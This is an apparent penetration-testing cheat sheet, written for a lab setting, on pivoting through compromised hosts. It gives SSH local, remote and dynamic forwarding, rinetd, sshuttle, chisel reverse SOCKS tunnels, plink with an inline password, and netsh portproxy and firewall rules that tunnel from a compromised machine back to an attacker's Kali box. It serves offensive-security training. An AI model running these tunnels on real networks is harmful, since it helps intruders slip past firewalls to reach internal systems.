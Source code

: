 ### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d54b48e3-43ed-4fde-ad3f-2d28b538bde5)

forward all packets which go to remote compromised machine:445 to 192.168.1.110:445(PGDATABASE01)
```
remote compromised machine(confluence01): ssh -N -L 0.0.0.0(src CONFLUENCE01):445:192.168.1.110(dst PGDATABASE01):445 student@PGDATABASE01
```
###### ssh remote port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9355bdff-aa68-4989-aa53-0f3074a39739)

```
remote compromised machine(confluence01): ssh -N -R 127.0.0.1(confluence01):2345:10.4.50.215(PGDATABASE01):5432 kali@192.168.118.4(attacker machine)
```
###### SSH Dynamic Port Forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f68cfac3-7e49-4f50-b104-ad7a672958e7)

Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised machine to a further internal network(PGDATABASE01)

After bind proxychains to confluence01, through proxychains all traffic can be forwarded to all ports of PGDATABASE01, accessing 127.0.0.1 is like accessing remote machine(PGDATABASE01)
```
remote compromised machine: ssh -N -D 0.0.0.0:9999(remote compromised machine - confluence01) database_admin@10.4.50.215(PGDATABASE01)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999(remote compromised machine - confluence01)
```
###### SSH Remote Dynamic Port Forwarding 
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/118dc119-bbce-4559-8ec6-5b1c1b7e50f5)

Remote Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised host(confluence to attacker machine)
```
remote compromised machine(confluence01): ssh -N -R 9998 kali@192.168.118.4(attacker machine)(listening state)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998(attacker machine)
```
###### sshuttle
```
1. confluence01: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22(PGDATABASE01)
2. kali(attacker machine): sshuttle -r database_admin@192.168.50.63(PGDATABASE01):2222 10.4.50.0/24 172.16.50.0/24
```
###### httptunnel
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0c4201e9-44ae-4d2f-ad93-a5ddb4317f52)
```
Confluence01: .\chisel.exe client 192.168.45.214:8080 R:socks
kali(attacker machine): chisel server --port 8080 --reverse/chisel server --port 8080 --socks5 --reverse

proxychains4:
add socks5 127.0.0.1 1080(chisel default port to listen)
disable proxy dns
sudo proxychains4 -f /etc/proxychains4.conf nmap -sS -Pn -p 80 172.16.243.10
```
Replace <kaliIP> with the IP address of your Kali machine. This command will instruct Chisel to connect back to the Kali machine on port 9002 and forward any traffic sent to localhost port 40000 to port 40000 on the Windows machine.
```
./chisel server --reverse --port 9002. This will start Chisel in server mode and listen for connections on port 9002.
chisel.exe client <kaliIP>:9002 R:40000:localhost:40000
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=4455 listenaddress=10.11.0.22
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
